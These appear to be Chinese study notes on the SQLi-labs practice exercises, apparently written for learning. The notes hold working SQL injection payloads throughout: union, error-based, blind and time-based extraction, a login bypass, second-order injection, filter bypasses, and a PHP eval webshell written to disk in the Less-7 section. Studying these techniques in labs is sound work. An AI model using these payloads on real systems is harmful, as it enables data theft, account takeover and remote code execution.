

# 1. 定义

# 2. Sqllab

## 1. Less-1（字符串型）

1. `id = 1 order by 数字`。报错与不报错的交错处就是列数。

2. `group_concat()` 将查询结果拼凑成一个字符串

3. 所有的表：information_schema.tables 这个表的 table_name 这个列的值

    `id = -1 union select 1,group_concat(table_name), 3 from information_schema.tables where table_schema=database()`

    注意：`union select` 前面是 `select` 的话不要加 and
    用联合查询的时候要传入非法值/没有数据的值。

4. 查当前数据库名：`database()`

    查数据库版本：`version()`

    查询当前用户：`user()`

    显示数据库所在路径：`@@datadir`

5. 表中的所有列名：information_schema.columns 这个表的 columns_name 这个列的值

    `union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name = 'users'`

    table_schema 用来指定要查询的具体数据库名，table_name 指定要查询的表的名字

6. 显示字段值：
    `id=-1 union select 1,group_concat(字段 1,0x3a,字段 2),3,4 from xxx -- -（注入出字段值）`

7. 补充一下 `group_concat()` 函数的作用：

    > 功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
    >
    > 语法：**group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator '分隔符'] )**

## 2. Less-2（整数型）

1. 用 and 和 or，单双引号判断类型。
2. 整数型可以不用考虑闭合。

## 3. Less-5（报错注入，需要 MySQL 有详细错误回显）

1. `updatexml()`：

    1. 其是一个使用不同的 xml 标记匹配和替换 xml 块的函数

    2. 其作用是改变文档中符合条件的节点的值

    3. `update(String XML_document, String XPath, String new_value)`

        第一个参数是 XML 文档对象的名称。

        第二个参数是路径，格式为XPath。

        第三个参数替换参数，替换查找到的符合条件的数据。

    4. 如果 XPath 的格式出现错误，MySQL 就会报错。但是 XPath 内的语句依旧会执行。

2. `extractvalue()`：

    1. 其作用是从目标 XML 中返回包含所查询值的字符串。
    2. `extractvalue(String XML_document, String XPath)`
    3. 和 `updatexml()` 类似，输入错误的 XPath 就会报错。

3. `Duplicate entry()`：

    1. `rand()` 函数可以产生 0~1 之间的随机数，但是若指定随机数种子时，其值就会固定，此时就会变成伪随机。例如：

        

    2. 假设要查询的表有 n 行字段，那么在这个表中调用 `rand(0)` 的次数就是 n。例如（这里的 n 为 2）：

        

    3. `floor()` 函数返回括号内值的最大整数（不超过括号内的值）

    4. 此时使用 `floor(rand(0) * 2))`，那么就会返回 0 和 1 这两个数的其中一个。例如：

        

    5. `group by colomn_name/nickname` 对结果进行排序，排序的列就是指定的列。例如：

        

        友情提示：在使用 `group by` 函数进行分类时，会因为mysql版本问题而产生问题，主要是启用了 `ONLY_FULL_GROUP_BY SQL` 模式（默认情况下），MySQL 将拒绝选择列表，HAVING 条件或 ORDER BY 列表的查询引用在 GROUP BY 子句中既未命名的非集合列，也不在功能上依赖于它们。

    6. `count()` 函数用来统计个数。`count(*)` 表示统计出所有的记录数/行数，`count(column_name)` 统计出所指定列中不为 NULL 的记录数/行数。例如：

        

    7. 当这些元素综合在一起使用时就会报错，例如：

        

    8. 原理：

        

        如上图所示，按照道理来说，`select count(*), floor(rand(*0) * 2) x from employees;`的结果应该是两行，x 可以为 0 或 1 且各两次（`count(*)` 的值都为 2），但是结果却是只有 0 且次数为 4。说明 MySQL 在执行这段语句时内部发生了意想不到的问题，此时结合 `group by floor(rand(0) * 2)` 就会发生错误。（虽然还是不懂错误的根本原因）

4. 利用：

    报错当前数据库的列名。

    `and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e), 1) -- -`

    或者：

    `and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e)) -- -`

    或者：

    `union select 1,count(*),concat(0x7e, 0x7e, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x7e, 0x7e, floor(rand(0)*2)) x from information_schema.tables group by x -- -`

    `concat()` 负责将内容整合成字符串，这里 table_name 使用  `group_concat()` 会无效。所以用  `limit` 来获取。

## 4. Less-7（写入木马文件、读文件）

1. 使用条件：

    1. `secure_file_priv` 的值不能为 NULL，NULL 代表 MySQL 不允许导入导出。

        若没有具体的值，就代表不限制导入导出

        否则就是具体路径

    2. 查看 `secure_file_priv` 的参数的值：

        `show global variables like '%secure%';`

    3. 默认情况下，该值为 NULL。

2. outfile 和 dumpfile

    假设有一个二进制文件，如果用 outfile 导入，则在导出过程中会被转义从而被破坏，这是只能使用 dumpfile 函数。即 dumpfile 不会对行列进行终止与转义。

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO OUTFILE '路径' -- -`

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO dumpfile'路径' -- -`

3. `lines terminated by 'webshell 语句'` 在 select 后面使用，作用是在每行终止的位置添加 webshell 语句。

    `select * from users where id='1' into outfile '文件路径' lines terminated by 'webshell 语句'`

4. 同理，有 `lines terminated by` 就有 `lines starting by`

5. 有从头尾插入，就有从中间插入：`fields 或者 columns terminated by`

6. 当有 MySQL 的 root 权限时，可以通过修改 MySQL 的 log 文件来 getshell

    1. 先查看配置，需要 MySQL 的 `general_log` 属性为 on：

        `show variables like '%general%';`

    2. 如果没有开，那就开：

        `set global general_log = on;`

    3. 设置日志目录（为 shell 地址）

        ``set global general_log_file = 'webshell 位置';`

    4. 写入

        `select 'webshell 语句'`

    5. 关闭 `general_log` 模式：

        `set global general_log = off;`

7. 读文件用 `load_file`

8. 常见的默认网站地址：

    

## 5. Less-8(盲注，页面要有查询成功和失败的回显)

1. 在 where 句子中，and 连接的地方，如果子句中出现逻辑 false（and false 或者全是 all or false) 就会是空。

2. 常用函数：

    `substr(String content, int begining, int length)` 截取子字符串

    `ascii(String content)` 将内容转换成十进制的 Ascii

    `length(String content)` 获取长度

    `left(String content, int length)` 从左开始，截取 length 长度的字符串

    `right(String content, int length)` 从右开始。

## 6. Less-9（时间盲注，当页面只有一种显示状态时）

1. 当页面对输入的 SQL 语句没有反应时，可以使用 `sleep(5)` 休眠函数来判断。

2. 应用（配合 if 函数来使用）：

    `id=1' and if(ascii(left(database(),1)) = 115 , sleep(5), null)-- -`

## 7. Less-11（登录框的 SQL 注入）

1. 通过 post 传输后，可以通过 F12 网络查看 post 主体内容从而构造语句。

2. 尽量在系统 SQL 语句中的最后一个变量中进行注入，否则使用注释时会把后面的语句注释掉，容易注入失败。

3. 应用：

    `uname=1&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

4. 闭合的时候，如果出现报错语句显示为 `''`，那么后面可以加括号来接着判断闭合

5. 万能密码：`1' or 1=1 -- -`

## 8. Less-12~16（登录框的其他注入）

1. 在 Post Data 中进行报错注入（如果界面有 SQL 报错回显），布尔盲注（没有 SQL 报错回显）和时间盲注（无任何提示）。

## 9. Less-17（更改密码类注入（update 语句注入））

1. 在 User Name 中输入已经存在的账号

2. 在 New Password 中输入密码，并且插入 SQL 语句。

3. 应用：

    `uname=admin&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

## 10. Less-18~19（HTTP 请求头注入）

1. 登录成功后界面返回 User-Agent 或 Referer 的内容，考虑是 HTTP 请求头注入。

2. 判断闭合后（注释后面语句后），报 `Column count doesn't match value count at row 1` 错误。说明系统中的 SQL 语句是 Insert 语句。

3. 对于 Insert 语句，一般情况下都是

    `insert into 表名(列名1, 列名2, ..., 列名n) values('值1', ..., '值n');`

    注入点也一般是在 values 中。

    构造其中一个值，写成：

    `'值1' SQL 注入语句 or '1'='1` 来注入。

    例如：

    `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0 ' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) or '1'='1`

    99.0 后面的单引号闭合 values 中自带的一个，然后植入 SQL 语句，最后用 `or '1'='1` 闭合后面自带的单引号（注意这里不能使用注释符注释后面，否则会报列数不匹配的错误）

4. 结果

## 11. Less-20(Cookie 注入)

1. 登录成功后，注入点在 Cookie，因此对 Cookie 进行注入即可（这里是 Query 注入）。

## 12. Less-21~22（编码）

1. Cookie 注入中，Cookie 被编码（base64），因此注入语句也要进行编码。

## 13. Less-23（注释符过滤）

1. 当注释符被过滤时（例如 `#`，`-- -` 等），此时需要构造 `and/or '1'='1'` 这种语句来闭合符号。

2. 例如（这题有错误回显，因此使用报错注入）：

    `http://localhost/sql/Less-23/?id=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) and '1'='1`

    时间盲注如下：

    `http://localhost/sql/Less-23/?id=1' and if(ascii(left((select database()), 1)) = 115, sleep(5), null) and '1'='1`

3. 结果如下：

    

## 14. Less-24（二次注入）

1. 先注册账号 `admin' #`，登录进去后进入修改密码界面，修改密码后，由于数据库更新密码的语句为：

    `UPDATE users SET passwd="New_Pass" WHERE username='admin' #' AND password='current_pass'`

    这样就会修改掉 admin 的密码，从而完成二次注入。

## 15. Less-25（过滤一次）

1. 复写被过滤的单词即可，例如 oorr -> or
2. 用 `&&` 或者 `||` 代替 `and` 和 `or`。或者用 `^` 代替 `xor` 

## 16. Less-26（空格和注释符被过滤）

1. 空格被过滤（url 中）：

    1. `%09` 为 TAB 键（水平）的 URL 编码
    2. `%0b` 为 TAB 键（垂直）的 URL 编码
    3. `%0a` 为换行
    4. `%0c` 为新建一页
    5. `%0d` 为 return 功能
    6. `%a0` 为空格
    7. PS：在 apache 的解析下，这些 URL 不会有作用

2. 补充：

    `where 1=1` 可以使得查询无约束，因为 where 后面为 true

## 17. Less-27（union，select 等关键字过滤）

1. 双写
2. 大小写混淆
3. 关键字中插入 `/**/` 。（这题没用，因为它过滤了）

## 18. Less-28（服务器双层架构）

1. 总结来说，就是服务器端分成两部分，一部分当作 WAF，另一部分才是真正的服务器。（使用了 HPP，也就是 HTTP Parameter Pollution）
2. 参考链接：https://blog.csdn.net/nzjdsds/article/details/77758824

## 19. Less-32（绕过 addslashes()）

1. `addslashes()` 函数返回在预定义字符之前添加反斜杠的字符串。

    在单引号、双引号、反斜杠和 NULL 之前添加反斜杠转义。

    PHP 默认对所有的 GET、POST 和 COOKIE 数据自动运行 `addslashes()` 。可以使用 `get_magic_quotes_gpc()` 进行双层转义检测。

2. 当数据库的字符集为 GBK 时，`%E6` 或者 `df` 会和 `\` 合在一起进行编码，从而绕过 `\` 

3. ps：这里需要注意的是，通过 Hackbar 提交 url 浏览器会进行 url 编码。也就是 `%` 还会被编码成 `%25` 从而导致绕过产生问题。不过若是直接在浏览器中输入的话，`%` 就不会额外编码。此外，burpsuite 请求头中不会对请求进行 url 编码，因此用 burpsuite 时需要手动 url 编码。

4. ps2：由于使用的是 GBK 编码，那么也可以使用 16 进制绕过 `'` 。但是前面要记得加 `0x` 。（我不理解为什么要 16 进制的内容不需要加单引号）。

## 20. Less-36（有关 `mysql_real_escape_string()` ）

1. 转义了一些字符，参见：https://www.w3school.com.cn/php/func_mysql_real_escape_string.asp
2. 不过 GBK 编码下依旧可以绕过。
3. 该方法在 `PHP` 版本 `5.5.0 `之后已被标记为过时，并在 `PHP` 版本 `7` 之后被移除。

## 21. Less-38（堆叠注入）

1. 堆叠注入，就是多条 sql 语句堆叠在一起进行执行。本质上调用了 PHP 的 `mysql_multi_query()` 函数。

2. 一般情况下，收到各个方面的影响（例如 API，数据库引擎，权限等等），其条件十分有限。

3. 例如：

    

## 22. Less-46（order-by 注入）

1. `order by` 的用法：

    `select 列名 from 表名 where xxx order by 列名/表达式/查询结果中指定列的位置（正整数）[ASC|DESC]`

2. `order by` 和 `if()` 的盲注联动

    当 `order by` 后用户可控制的内容是字符串型时，此时 `order by` 失效。因此，需要注意的是，如果是根据列名排序，列名是不需要加单引号的。

    当 `order by` 后用户可控制的内容是数字型时：

    1. 当具体列名可知时：

        此时可以构造 `if()` 语句，然后根据页面返回的内容来进行盲注。

        例如：

        

        

        分别根据了用户名和密码进行排序，两者的结果是不同的。

    2. 当具体的列未知时：

        如果知道列的数量，那么可以使用 `or union select` 在查询结果插入字符 'a ~ z' 配合 `order by 数字`，根据页面的返回结果来盲注。

        例如：

        

        

        这样可以根据返回结果来盲注。这里就确认出密码的第一位为 'a'。（可以加上 `BINARY '字符串'` 来区分大小写）。

        注意：此时将 `if()` 内的列名换成数字是不可以的，因为 `if()` 的返回结果会转成字符串，这样就回到了上面一点。

        同样的，使用 `select` 查询出列名也不行。

        例如：

        

        不过如果后面查询出来的结果过多，那么会爆出 'ERROR 1242 (21000): Subquery returns more than 1 row ' 的错误。

3. `order by` 和 `if()` 的联动时间盲注

    `order by if(boolean 表达式, 1, sleep(1))`

    延迟时间是 1 * 结果条数，所以这里要注意时间。

    （好像可以用来造成一定的 DOS）

4. 由于 `if()` 的第一个参数是 boolean 表达式，那么上文中提到的报错和时间盲注就可以配合 Boolean 表达式来进行字段爆破。

5. `order by` 和 `rand()` 的联动盲注

    `rand()` 中，`order by rand(true)` 和 `order by rand(false)` 的结果是不同的，那么 `rand()` 内就可以放 boolean 表达式，结合页面结果来进行盲注。

6. `order by` 的报错注入

    直接在可注入的地方插入报错注入的函数即可。

    例如：

    

    当然，如果想要返回正确和错误的结果来判断，那么报错注入中，涉及到查询的语句可以用 `if()` 来选择显示正确和错误的界面。例如：

    

7. 参考链接：

    https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html

    https://yang1k.github.io/post/sql%E6%B3%A8%E5%85%A5%E4%B9%8Border-by%E6%B3%A8%E5%85%A5/

# 3. 一些知识点和总结

## 1. 思路

1. 先判断类型，如果是字符型，就判断闭合

2. 判断注释符，常见的注释符

    `--空格 `，`--+`，`#或者%23`，`/**/`

3. 决定注入方式

## 2. 思维导图

1. 思维导入（护网）
